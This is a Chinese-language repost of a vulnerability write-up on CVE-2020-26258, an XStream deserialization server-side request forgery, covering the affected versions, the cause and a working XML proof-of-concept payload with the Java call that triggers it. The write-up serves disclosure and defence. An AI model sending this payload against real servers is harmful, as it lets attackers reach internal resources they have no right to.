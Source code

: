 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/xnkZMHfCmgzlzbsIi3nfUQ)

                        ![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV3SribmxhsVoQiaKygOs2NzUzlUibJcIYCLcn317tRgrHWLoYkPUwkT3hmRB1VxNmTfjRCeLUZPuarKg/640?wx_fmt=png)

            CVE-2020-26258：可以使用 XStream 解组激活服务器端伪造请求，以从引用内部网或本地主机中资源的任意 URL 访问数据流。

受影响的版本：

            如果使用现成的版本，则直到 1.4.14（包括 1.4.14）的所有版本都将在 Java 15 以下的 Java 环境中运行。没有用户受到影响，他们遵循建议使用白名单设置 XStream 的安全框架。

漏洞描述：

            在解组时处理的流包含类型信息以重新创建以前写入的对象。因此，XStream 基于这些类型信息创建新的实例。攻击者可以操纵处理后的输入流并替换或注入对象，从而导致服务器端进行伪造请求。

POC：

该漏洞可能允许远程攻击者仅通过处理已处理的输入流来从不公开可用的内部资源中请求数据。

```
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
        <dataHandler>
          <dataSource class='javax.activation.URLDataSource'>
            <url>http://localhost:8080/internal/:</url>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <string>test</string>
  </entry>
</map>
XStream xstream = new XStream();
xstream.fromXML(xml);
```

创建一个简单的 HashMap 并使用 XStream 将其封送为 XML。用以下代码片段替换 XML，然后用 XStream 重新解组它。

一旦解组 XML，就会执行有效负载并收集来自 URL 位置的数据。

注意，此示例使用 XML，但是可以针对任何受支持的格式（例如 JSON）执行攻击。

请参考：

https://x-stream.github.io/CVE-2020-26258.html